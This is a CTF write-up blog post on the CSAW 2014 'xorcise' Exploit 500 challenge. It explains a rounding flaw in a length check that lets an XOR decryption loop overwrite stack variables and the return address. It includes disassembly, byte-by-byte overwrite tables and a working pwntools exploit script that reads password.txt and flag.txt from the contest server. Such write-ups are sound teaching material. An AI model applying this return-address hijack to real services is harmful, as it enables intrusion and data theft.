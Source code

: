 +++
title = "CSAW 2014 Exploit 500 writeup : xorcise"
date = "2014-09-21"
slug = "csaw-xorcise-writeup"

[taxonomies]
categories = ["Posts"]
tags = ["ctf", "exploits"]

+++

The [CSAW 2014](https://ctftime.org/event/152/tasks/) Exploit500 challenge was a Linux 32-bit network service for which the executable
and the source code were provided (I saved a copy of the source code [here](https://github.com/ekse/code/blob/master/ctf/csaw2014/exploit500/xorcise.c)).
The service accepts packets defined by the structure cipher_data and first applies a decryption loop to the received data.

```c
struct cipher_data
{
    uint8_t length;
    uint8_t key[8];
    uint8_t bytes[128];
};
typedef struct cipher_data cipher_data;
```

The service provides multiple commands, however the 2 interesting ones `read_file` and `system` require your packet to be authenticated.
The authentication verification is done in `is_authenticated()` and computes an authentication checksum based on a password read from
the local file 'password.txt'. This check does not seem to be vulnerable.

My teammate EiNSTeiN_ discovered that there is a flaw in the `decipher()` method that does the decryption of the data. The function
allocates a buffer `buf` which will contain the decrypted data, the allocated size is `MAX_BLOCKS * BLOCK_SIZE` which is 128 bytes. The
copy of the packet bytes to the buffer is done safely with memcpy.

```c
#define BLOCK_SIZE 8
#define MAX_BLOCKS 16
[...]
memcpy(buf, data->bytes, sizeof(buf));
```

There is also a check to ensure that the decryption loop does not process more than the size of `buf[]`.

```c
if ((data->length / BLOCK_SIZE) > MAX_BLOCKS)
{
    data->length = BLOCK_SIZE * MAX_BLOCKS;
}
```

But this check is flawed because of rounding; we can pass a value of 135 which will pass the check (135 / 8 equals 16 which is not bigger than `MAX_BLOCKS`).
The decryption loop is applied by blocks of 8 bytes, so we are able to apply it to 8 bytes outside the bounds of `buf[]`.

```c
for (loop = 0; loop < data->length; loop += 8)
{
    for (block_index = 0; block_index < 8; ++block_index)
    {
        buf[loop+block_index] ^= (xor_mask^data->key[block_index]);
    }
}
```

If we look at the stack layout of `decipher()` we see that those 8 bytes are the variables `xor_mask`, `block_index` and the first 3 bytes
of loop.

```
-00000095 buf             db 128 dup(?)
-00000015 xor_mask        db ?
-00000014 block_index     dd ?
-00000010 loop            dd ?
```

## Exploitation Strategy

The strategy I went for is to modify the value of `loop` to make it point on the return address of `decipher()` and modify its 2 first bytes
to make it return somewhere else. Hopefully we can find an interesting place to jump to.

Let's go through the modification of the bytes one at a time. The first one is `xor_mask`. At this point `block_index` equals 0. We know 2
of the values in the decryption (`xor_mask` = 0x8F and `buf[loop+block_index]` = 0x8F), so we can set `key[block_index]` to get the output
value we want. Let's set `xor_mask` to 0 to make the next steps easier. `0x8F ^ 0x8F ^ 0x00` equals 0x00, so this is the value we will put
at `key[0]`.

```
variable: prev_val   block_index  new_val key_value
xor_mask: 0x8F       0            0x00    key[0] = 0x00
```

Next up is the first byte of `block_index`, at this point it is equal to 1. We will keep its value at 1 so the decryption loop continues
normally. As we have modified `xor_mask` to 0x00, the computation is now `0x01 ^ 0x01 ^ 0x00` which equals 0x00, we put this value in
`key[1]`. We will also leave the other bytes of `block_index` unchanged. Here is the updated table:

```
variable       : prev_val   block_index  new_val key_value
xor_mask       : 0x8F       0            0x00    key[0] = 0x00
block_index[0] : 0x01       1            0x01    key[1] = 0x00
block_index[1] : 0x00       2            0x00    key[2] = 0x00
block_index[2] : 0x00       3            0x00    key[3] = 0x00
block_index[3] : 0x00       4            0x00    key[4] = 0x00
```

We can now modify the first byte of `loop`. Its current value is 0x80 (128), the value we need to make `buf[loop+block_index]` modify the
return address at this point is 0x93, so that will give us `key[5] = 0x13`.

```
variable: prev_val   block_index  new_val key_value
loop[0] : 0x80       5            0x93    key[5] = 0x13
```

We are now able to modify the return address of `decipher()`, we're making good progress. So where do we want to make the program jump?
There is a call to `read_file()` in `process_connection()`, this command reads the content of a file and sends its content back to us,
we could use it to read the content of 'password.txt'.

```
.text:08049279                 mov     eax, [ebp+var_10]
.text:0804927C                 add     eax, 8
.text:0804927F                 sub     esp, 8
.text:08049282                 push    eax
.text:08049283                 push    offset aReadFileReques ; "Read File Request: %s\n"
.text:08049288                 call    _printf
.text:0804928D                 add     esp, 10h
.text:08049290                 mov     eax, [ebp+var_10]
.text:08049293                 add     eax, 8
.text:08049296                 sub     esp, 8
.text:08049299                 push    eax             ; filename
.text:0804929A                 push    [ebp+fd]        ; fd
.text:0804929D                 call    read_file
```

There is a little detail to keep in mind, there is a stack adjustment after the call to `decipher()`. As we are hijacking the return address
the stack will not be properly readjusted.

```
.text:0804918F                 call    decipher
.text:08049194                 add     esp, 10h
;274     packet = (request *)&decrypted;
.text:08049197                 lea     eax, [ebp+var_11D]
.text:0804919D                 mov     [ebp+var_10], eax
```

My first thought was to jump at `0x0804928D` which does the same stack adjustment and then sets the correct parameters for the call to
`read_file()`. However this approach does not work as the value of `var_10` is set only after the call to `decipher()`. Bummer.

I then noticed that the address of `filename` is passed via eax at `0x08049299` and by luck at the end of `decipher()` eax points inside `buf[]`. So the last thing I needed to do was to adjust the initial packet content so that it contained `password.txt\x00' XOR 0x8F XOR the key`. Here is the final content of the variable smashing table.

```
variable       : prev_val   block_index  new_val key_value
xor_mask       : 0x8F       0            0x00    key[0] = 0x00
block_index[0] : 0x01       1            0x01    key[1] = 0x00
block_index[1] : 0x00       2            0x00    key[2] = 0x00
block_index[2] : 0x00       3            0x00    key[3] = 0x00
block_index[3] : 0x00       4            0x00    key[4] = 0x00
loop[0]        : 0x80       5            0x93    key[5] = 0x13
at this point buf[loop+block_index] overwrites retaddr
retaddr[1]     : 0x94       6            0x99    key[6] = 0x0d
retaddr[2]     : 0x91       7            0x92    key[7] = 0x03
```

## Putting it all together

Below is the source code of my exploit, I used the [pwntools](https://github.com/Gallopsled/pwntools) python library by Gallopsled which
saved me a ton of time, definitely check it out.

```python
from pwn import *
#sock = remote("127.0.0.1", 24001)
sock = remote("128.238.66.227", 24001)
key = "\x00\x00\x00\x00\x00\x13\x0d\x03"
packet  = ""
packet += chr(135) # cipher_data.length = 135
packet += key # key
packet += "A"
#packet += xor(xor("password.txt\x00", "\x00\x00\x00\x00\x13\x0d\x03\x00"), 0x8f)
packet += xor(xor("flag.txt\x00", "\x00\x00\x00\x00\x13\x0d\x03\x00"), 0x8f)
packet += "A"* (140 - len(packet))
sock.send(packet)
sock.interactive()
```

And finally the exploit in action :

```
[ekse@xubuntu] : ~/csaw/exploit500 $ python client.py
[+] Opening connection to 127.0.0.1 on port 24001: OK
[*] Switching to interactive mode
pass123
[*] Got EOF while reading in interactive
```

So the password was 'pass123'. It was kind of depressing to have worked so much for such a weaksauce password, the CSAW CTF organizers
really are a bunch of trolls. Now we could implement the packet authentication and call the system command to list the files on the server,
 but I guessed the flag was probably in 'flag.txt' and used the exploit to read that file instead :-)

The flag was `flag{code_exec>=crypto_break}`.

Thanks to drraid for this great challenge and to the CSAW organizers for such a great CTF!
